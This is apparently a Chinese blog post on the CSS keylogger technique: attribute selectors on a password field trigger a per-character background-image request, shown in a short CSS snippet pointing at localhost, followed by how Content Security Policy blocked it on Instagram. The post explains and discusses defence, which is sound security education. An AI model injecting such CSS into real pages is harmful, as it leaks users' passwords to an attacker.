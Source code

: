 ```yaml
---
title: 使用css selector 记录用户输入信息
date: 2019-11-13 14:09:22
tags: [web security, web fronted]
---
```


## CSS3 Selector
  实现使用 CSS 记录用户信息主要使用了 CSS3 中的 selector。

| 序号 | 选择器 | 含义 |
| :-----| :---- | :---- |
| 1 | E[attr^="val"] | 属性 attr 的值以 "val" 开头的元素 |
| 2 | E[att$="val"] | 属性 attr 的值以 "val" 结尾的元素 |
| 3 | E[att*="val"] | 属性 attr 的值以 "val" 字符串的元素 |

## 键位匹配

浏览器自身默认不会将用户输入的值同步到 value 中, 但像一些框架会将用户输入值同步到 value 中。[Demo Link](https://codepen.io/epson-lee/pen/vYYzaNb?editors=0010)

![demo.gif](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/css-keylogger.gif)

将值同步到 value 之后，我们可以使用 css 来做匹配，对应的键位发送到不同的链接。

```css
/* 命中 0 时 请求对应的接口 */
input[type="password"][value$="0"] {
  background-image: url("http://localhost:3000/0"); 
}
/* 命中 1 时 请求对应的接口 */
input[type="password"][value$="1"] {
  background-image: url("http://localhost:3000/1"); 
}
```

## 防御措施

在知道可以使用 css 来记录按键之后我兴冲冲的找到对应的 github demo，按照文档所说打开 [https://instagram.com](https://instagram.com)，安装 Chrome Extension、输入密码但却然而却发现并没有记录到信息，出现了如下的错误信息：

![Error Info](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/css-keylogger-error.png)

在 [antd-design-pro 示例登录页](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/1.gif) 倒是可以。

这是因为 [https://instagram.com](https://instagram.com) 使用了 CSP (Content Security Policy)。 说白了就是为了页面安全而制定的一系列防护措施，通过CSP所约束的规则制定可信的内容来源（脚本、图片、iframe、fton、style 等可能的远程资源）。

## 引用

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging)
[Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击](https://www.zhihu.com/question/21979782)
